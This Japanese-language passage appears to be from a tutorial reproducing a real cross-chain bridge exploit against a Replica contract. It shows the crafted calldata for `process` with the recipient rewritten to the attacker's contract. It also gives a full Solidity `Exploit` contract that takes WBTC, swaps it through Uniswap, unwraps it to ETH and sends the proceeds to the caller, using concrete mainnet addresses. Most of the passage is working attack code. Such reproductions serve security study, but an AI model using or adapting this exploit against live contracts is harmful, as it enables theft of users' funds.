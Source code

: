 Invocation Flowからコピーできるアドレスはチェックサムが効いておらず、コンパイルするときにエラーになるので、次のように`cast to-check-sum-address`コマンドを使用するなどして、チェックサムを有効にする必要があります。

```
$ cast to-check-sum-address 0x5d94309e5a0090b165fa4181519701637b6daeba
0x5D94309E5a0090b165FA4181519701637B6DAEBA
```

### 攻撃コントラクトの実装

次は攻撃コントラクトに攻撃処理を実装していきます。
これも基本的にInvocation Flowの通りに実装していけばよいですが、`process`関数に与えるクロスチェーンメッセージは、攻撃者のアドレスに送金するものなので、このアドレスを自身が作成した`Exploit`コントラクトのアドレスに変える必要があります。

コールデータは以下であり、

```
6265616d000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d000013d60065746800000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000f57113d8f6ff35747737f026fe0b37d4d7f4277700000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a
```

`f57113d8f6ff35747737f026fe0b37d4d7f42777`の部分が攻撃者のコントラクトアドレスなので、これを書き換えます。
よって、`process`関数を呼び出す部分は次のようになります。


```solidity
replica.process(
	bytes.concat(
		hex"6265616d000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d000013d60065746800000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000",
		bytes20(address(this)),
		hex"00000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a"
	)
);
```

また、`Exploit`コントラクトはEtherを受け取らなければならないので、`receive`関数を実装する必要があります。

最終的に`Exploit`コントラクトは次のようになります。

```solidity
contract Exploit {
    function exploit() external {
        IReplica replica = IReplica(0x5D94309E5a0090b165FA4181519701637B6DAEBA);
        IWBTC wbtc = IWBTC(0x2260FAC5E5542a773Aa44fBCfeDf7C193bc2C599);
        IUniswapV2Pair wbtcWeth = IUniswapV2Pair(0xBb2b8038a1640196FbE3e38816F3e67Cba72D940);
        IWETH weth = IWETH(0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2);

        replica.process(
            bytes.concat(
                hex"6265616d000000000000000000000000d3dfd3ede74e0dcebc1aa685e151332857efce2d000013d60065746800000000000000000000000088a69b4e698a4b090df6cf5bd7b2d47325ad30a3006574680000000000000000000000002260fac5e5542a773aa44fbcfedf7c193bc2c59903000000000000000000000000",
                bytes20(address(this)),
                hex"00000000000000000000000000000000000000000000000000000002540be400e6e85ded018819209cfb948d074cb65de145734b5b0852e4a5db25cac2b8c39a"
            )
        );
        wbtc.transfer(address(wbtcWeth), 10000000000);
        wbtcWeth.swap(0, 1084116533510535209745, address(this), "");
        weth.withdraw(1084116533510535209745);
        (bool success,) = payable(msg.sender).call{value: address(this).balance}("");
        require(success);
    }
```